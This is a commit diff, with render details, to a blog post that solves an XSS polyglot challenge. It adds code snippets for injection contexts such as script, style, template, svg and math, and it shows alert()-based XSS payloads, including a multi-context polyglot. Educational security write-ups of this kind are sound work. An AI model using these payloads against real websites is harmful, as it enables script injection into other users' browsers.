

Before and after one commit to martinstnv/challenges, a Jekyll site: the page built from _posts/2021-12-06-twitter-xss-challenge-freddyb.md, in a window 1280 px wide and 1400 px high, scrolled down 7704 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
added all code snippets to the detailed solution of 21 vector challenge

````diff
--- a/_posts/2021-12-06-twitter-xss-challenge-freddyb.md
+++ b/_posts/2021-12-06-twitter-xss-challenge-freddyb.md
@@ -43,15 +43,6 @@
 </script>
 ```
 
-- Result of stand-alone payload `"%0Aalert()//`
-
-```html
-<script>
-    injection = ""
-alert()//";
-</script>
-```
-
 - Polyglot result
 
 ```html
@@ -72,15 +63,6 @@
 </script>
 ```
 
-- Result of stand-alone payload `` `%0Aalert()// ``
-
-```html
-<script>
-    injection = ``
-alert()//`;
-</script>
-```
-
 - Polyglot result
 
 ```html
@@ -96,11 +78,9 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<script>
+    // payload
+</script>
 ```
 
 - Polyglot result
@@ -118,11 +98,9 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<script>
+    /* payload */
+</script>
 ```
 
 - Polyglot result
@@ -140,18 +118,14 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<style>
+payload</style>
 ```
 
 - Polyglot result
 
 ```html
 <style>
-* {  /* REDACTED */ }
 "
 x=//`//</style></title></math></select></template></textarea><svg x=*/
 onload=alert()//></svg></style>
@@ -162,11 +136,7 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<title>2021's vector to rule them all - payload</title></head>
 ```
 
 - Polyglot result
@@ -182,11 +152,8 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<main>    payload
+    <select>
 ```
 
 - Polyglot result
@@ -203,11 +170,7 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<select><option>payload</option></select>
 ```
 
 - Polyglot result
@@ -223,11 +186,7 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<textarea>payload</textarea>
 ```
 
 - Polyglot result
@@ -243,11 +202,7 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<img src="payload" alt="" />
 ```
 
 - Polyglot result
@@ -263,19 +218,15 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
- <template>"
-x=//`//</style></title></math></select></template></textarea><svg x=*/
-onload=alert()//></svg></template>
+<template>payload</template>
 ```
 
 - Polyglot result
 
 ```html
+<template>"
+x=//`//</style></title></math></select></template></textarea><svg x=*/
+onload=alert()//></svg></template>
 ```
 
 ### Context #12: HTML SVG
@@ -283,11 +234,7 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<svg>payload</svg>
 ```
 
 - Polyglot result
@@ -303,11 +250,13 @@
 - Code snippet
 
 ```html
+<math>payload</math>
 ```
 
-- Result of stand-alone payload ``
+- Result of stand-alone payload `</math><svg+onload=alert()>`
 
 ```html
+<math></math><svg onload=alert()></math>
 ```
 
 - Polyglot result
@@ -323,11 +272,7 @@
 - Code snippet
 
 ```html
-```
-
-- Result of stand-alone payload ``
-
-```html
+<iframe data-injection="payload" src="data:text/html,<h1>Ignore me"></iframe>
 ```
 
 - Polyglot result
````
